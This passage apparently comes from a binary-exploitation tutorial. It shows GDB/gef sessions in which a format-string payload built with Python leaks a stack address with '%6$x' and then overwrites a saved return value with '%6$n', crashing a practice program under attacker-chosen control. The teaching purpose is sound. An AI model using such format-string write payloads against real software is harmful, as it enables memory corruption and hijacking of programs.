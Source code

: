 Our value is `0xf7ddbee5`. Okay, so it is stored at `0xffffcfbc`.

### Try to write to the address

It's time to use `%n` specifier which will write the written size of the string to our address.
```bash
gef➤  r $(python -c 'print "\xbc\xcf\xff\xff" + "%6$x"')
Starting program: /home/shogun/repos/basics-of-pwn/content/format-string/format-string $(python -c 'print "\xbc\xcf\xff\xff" + "%6$x"')

Breakpoint 1, 0x0804921c in main ()

gef➤  x/50wx $esp
0xffffcfdc:	0xf7ddbee5	0x00000002	0xffffd074	0xffffd080
0xffffcfec:	0xffffd004	0xf7fa8000	0x00000000	0xffffd058
0xffffcffc:	0x00000000	0xf7ffd000	0x00000000	0xf7fa8000
0xffffd00c:	0xf7fa8000	0x00000000	0x9fb4e996	0xdb566f86
0xffffd01c:	0x00000000	0x00000000	0x00000000	0x00000002
0xffffd02c:	0x080490a0	0x00000000	0xf7fe7b24	0xf7fe22f0
0xffffd03c:	0x0804c000	0x00000002	0x080490a0	0x00000000
0xffffd04c:	0x080490d6	0x080491b6	0x00000002	0xffffd074
0xffffd05c:	0x08049220	0x08049290	0xf7fe22f0	0xffffd06c
0xffffd06c:	0x0000001c	0x00000002	0xffffd24d	0xffffd292
0xffffd07c:	0x00000000	0xffffd29b	0xffffd2ab	0xffffd2fb
0xffffd08c:	0xffffd30d	0xffffd320	0xffffd334	0xffffd368
0xffffd09c:	0xffffd3a2	0xffffd3b8
gef➤  c
Continuing.
����ffffcfbc[Inferior 1 (process 11587) exited normally]
gef➤
```

Specify the address of the return value at the beginning of the input string. Then, show it in the output. You can see that the value was shifted. So, change the address at the beginning of the string and change the specifier from `x` to `n`.
```bash
gef➤  r $(python -c 'print "\xdc\xcf\xff\xff" + "%6$n"')
Starting program: /home/shogun/repos/basics-of-pwn/content/format-string/format-string $(python -c 'print "\xdc\xcf\xff\xff" + "%6$n"')

Breakpoint 1, 0x0804921c in main ()
gef➤  x/50wx $esp
0xffffcfdc:	0x00000004	0x00000002	0xffffd074	0xffffd080
0xffffcfec:	0xffffd004	0xf7fa8000	0x00000000	0xffffd058
0xffffcffc:	0x00000000	0xf7ffd000	0x00000000	0xf7fa8000
0xffffd00c:	0xf7fa8000	0x00000000	0x4291c779	0x06734169
0xffffd01c:	0x00000000	0x00000000	0x00000000	0x00000002
0xffffd02c:	0x080490a0	0x00000000	0xf7fe7b24	0xf7fe22f0
0xffffd03c:	0x0804c000	0x00000002	0x080490a0	0x00000000
0xffffd04c:	0x080490d6	0x080491b6	0x00000002	0xffffd074
0xffffd05c:	0x08049220	0x08049290	0xf7fe22f0	0xffffd06c
0xffffd06c:	0x0000001c	0x00000002	0xffffd24d	0xffffd292
0xffffd07c:	0x00000000	0xffffd29b	0xffffd2ab	0xffffd2fb
0xffffd08c:	0xffffd30d	0xffffd320	0xffffd334	0xffffd368
0xffffd09c:	0xffffd3a2	0xffffd3b8
gef➤  c
Continuing.

Program received signal SIGSEGV, Segmentation fault.
0x00000004 in ?? ()
```
